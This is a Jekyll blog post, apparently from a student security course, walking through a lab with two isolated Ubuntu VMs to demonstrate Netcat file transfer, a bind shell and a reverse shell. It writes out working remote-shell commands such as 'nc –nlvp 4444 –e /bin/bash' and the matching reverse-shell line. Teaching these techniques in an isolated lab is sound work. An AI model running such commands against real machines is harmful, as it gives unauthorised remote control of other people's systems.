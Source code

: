 ```yaml
---
layout: post
title:  "Blog 11"
date:   2020-11-18 12:01:00 -0700
categories: jekyll update
---
```

<h1><b>Let's learn about Bind Shell and Versus Shell via Netcat</b></h1>

<h2><b>Introduction</b></h2>
<p>In the past few blogs, I raised awareness about the importance Network Security and how to prevent being a victim in a WEP/WPA attack. More importantly, I provided a demo that I showed all of you about how to tighten your network security with additional layers of firewalls and security software than can safeguard your data. It is going to change.
</p>
<p>In today's blog, I'll be talking about how to attack and inflitrate someone's file system using Netcat. Keep in mind, this a demo and it <strong>SHOULD NOT</strong> be use for personal gain or other endeavors, and I <strong>AM NOT</strong> responsible for any consequences for any of your actions. This demo is merely for education purposes to enlighten your mind about the use of Netcat. Netcat is a network utility that can read and write to exisiting network using the two protocols, TCP and/or UDP. Netcat is normally used and compatiable with other scripts or program to extend its purpose and framework. For today's demo, I'll be using Bind Shell and Reverse Shell from two different VM's to inflitrate each other's file system. What is bind shell and reverse shell you might ask? Good question! Bind shell is when the target's computer binds itself to a specific port and listens for a client to connect to it. The attacker's computer will then connect to that port and will be able to access to root privileges on the target's environment in which the attacker's computer can cause utter chaos on the target's file system. A reverse shell is when the target's computer communicates back to the attacker's computer. When the target's computer connects, it will have the attacker's computer's environment in which the target's computer will have root privileges assuming the attacker's computer used its root user to establish that connection. I will demonstrate how to safely conduct the bind and reverse shell demo below using two VMs.
</p>

<h2><b>Requirements</b></h2>
<ul>
    <li><a href="https://www.virtualbox.org/wiki/Downloads">Oracle VM Virtual Box</a></li>
    <li><a href="https://mycsun.app.box.com/s/pj6dl6f1awze4vbgq1oeic0rihxz5j92">Ubuntu-18.04</a></li>
    <li>20 GB of free hard drive space</li>
    <li>4 GB of RAM</li>
    <li>Computer</li>
    <li>Internet</li>
</ul>

<h2><b>Instructions</b></h2>
<ol>
    <li>Set up two separate VMs with the Ubuntu-18.04 ISO file. For each separate VM, allocate at least 2 GB of RAM (2048 MB) and 10 GB of hard disk space. For simplicity sake, let's name the first VM, bob, and the second VM, alice. From there, launch the two instances, name the hostname and username in the respective VMs &quot;bob&quot; and &quot;alice&quot;, and give each a password that you will remember. Keep in mind, they can both have the same password. Upon setup, you can use guided partitioning (use entire disk and LVM option), you do not need to set up a HTTP proxy, you do not need automatic updates, you do not need additional software packages, and if you wish, you can install the GRUB boot loader.</li><br>
    <li>Once everything is setup, you will need to install netcat and configure its settings on both VMs. To do that, first run the command:<br>
    <code>apt-get install netcat</code><br>
    Next, let's edit some configuration. Run the command:<br>
    <code>sudo update-alternatives --config nc</code><br>
    Selection option 2 which should say &quot;traditional&quot;.</li><br>
    <li>This part is the most important part to ensure network security and prevent outside intruders from getting into your filesystem while you perform the demo if you want to try it. For <strong>BOTH</strong> VMs, go to the instance's settings and set the network to <strong>Host-Only Adapter</strong> network, which will isolate the network communication between the your own machine and VM instance(s) instead of having traffic flowing through your entire network. This setting will prevent intruder from connecting to a specific port as you perform the demo.</li><br>
    <li>Run the command:<br>
    <code>ifconfig</code><br>
    If you do not see the IP address displayed in the terminal (should be like something like 192.168.56.x), then you need DHCP on your VM and set it to automatic configurations. To do that, you will need to open the Oracle VM Virtual Box, click the side bar where it saids Tools, and click on Network. From there you will check off enable in the respective adapter you are using and at the bottom, there should be an Adapter tab in which you can check off &quot;Configure Adapter Automatically&quot;. Restart the VMs and run the same command again and record the IP address of both of your VMs.</li><br>
    <li>Okay, let's play with some stuff. I will be referring to alice's IP as aliceip and bob's ip as bobip The purpose of this exercise we are doing right now is transfer some files from one terminal to the next. On alice's VM, run the command:<br>
    <code>echo "Hello World" > test.txt</code><br>
    On bob's VM, run the command:<br>
    <code>nc –nlvp 4444 > fromAlice.txt</code><br>
    On alice's VM, run the command:<br>
    <code>nc –nv bobip 4444 < text.txt</code><br>
    Prest Ctr C on Alice's VM after running the command.
    As you can see, on bob's vm if you were to run the command:<br>
    <code>cat fromAlice.txt</code><br>
    It will display the contents from alice's test.txt. Basically, alice just transferred the contents on the file into bob's file through port 4444.</li><br>
    <li>Okay, let's move on to Bind Shell. We will need to create a file. On alice's VM, run the command:<br>
    <code>touch hello.txt</code><br>
    Now we will make alice's vm the target (listening server) computer and bob's vm the attacker. On alice's VM, type the command:<br>
    <code>nc –nlvp 4444 –e /bin/bash</code><br>
    This command will give anyone who connects to her listening server through port 4444 root privileges in her environment. On bob's VM, run the command:<br>
    <code>nc –nv aliceip 4444</code><br>.
    This command will establish a connection to alice's listening server on port 4444. Once bob's has connected, on bob's VM, run the command:<br>
    <code>ls</code><br>
    and<br>
    <code>whoami</code><br>
    These two command should return the list of what's inside of alice's directory which is test.txt and hello.txt, and the name of the environment, which is alice. Once done, press CTR C.</li><br>
    <li>Now, let's move onto to the reverse shell. First we will need to establish a listening server, on alice's VM, run the command:<br>
    <code>nc –nlvp 4444</code><br>
    On bob's VM, run the command:<br>
    <code>nc –nv aliceip 4444 –e /bin/bash</code><br>
    This command will have bob's VM connect to alice's VM; however, the only difference is bob allows only alice access to his environment. Back onto alice's VM, if we were to run the command:<br>
    <code>ls</code><br>
    and<br>
    <code>whoami</code><br>
    It will list all the files in bob's directory, which is fromAlice.txt, and display the name of the environment, which is bob.</li><br>
</ol>
<h2><b>Conclusion</b></h2>
<p>Well that is all I have for you today. You guys learned about the basic concepts of bind and reverse shell as well as you getting a taste of how it actually works. Its astonishing isn't it? The fact that you have the power to access other people's file systems remotely. However, with great power comes with great responsibility; therefore, don't abuse it! Like I said before, I am <strong>NOT RESPONSIBLE</strong> if you decide to do it to someone else's computer or even worse, to a corporate or federal network. This is merely for educational purposes so be responsible and I'll see you guys next week for another blog!
</p>